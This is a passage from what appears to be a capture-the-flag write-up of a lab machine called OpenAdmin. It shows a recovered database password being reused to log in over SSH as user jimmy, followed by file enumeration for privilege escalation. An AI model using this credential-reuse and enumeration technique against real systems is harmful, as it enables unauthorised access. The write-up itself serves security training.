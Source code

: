 Cool, we got some creds: `ona_sys:n1nj4W4rri0R!`. Unfortunately, I cannot log on the `OpenNetAdmin` with this. And I cannot find the database. What we can do though is see if `jimmy` or `joanna` have reused the password. and the answer is...

```sh
$ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: n1nj4W4rri0R!
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 18 13:27:17 UTC 2020

  System load:  0.07              Processes:             124
  Usage of /:   49.3% of 7.81GB   Users logged in:       1
  Memory usage: 28%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Mar 18 13:24:45 2020 from 10.10.14.115
jimmy@openadmin:~$
```

YES ! We can ssh with `jimmy`. We are restricted on this user. Looking at `sudo -l` shows that we cannot use sudo at all. We can try to find files that are owned by jimmy.

# User

```sh
jimmy@openadmin:~$ find / -user jimmy

/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
/home/jimmy
/home/jimmy/.local
/home/jimmy/.local/share
/home/jimmy/.local/share/nano
/home/jimmy/.local/share/nano/search_history
/home/jimmy/.bashrc
/home/jimmy/.cache
/home/jimmy/.cache/motd.legal-displayed
/home/jimmy/.profile
/home/jimmy/.gnupg
/home/jimmy/.gnupg/private-keys-v1.d
/home/jimmy/.bash_history
/home/jimmy/.bash_logout
```
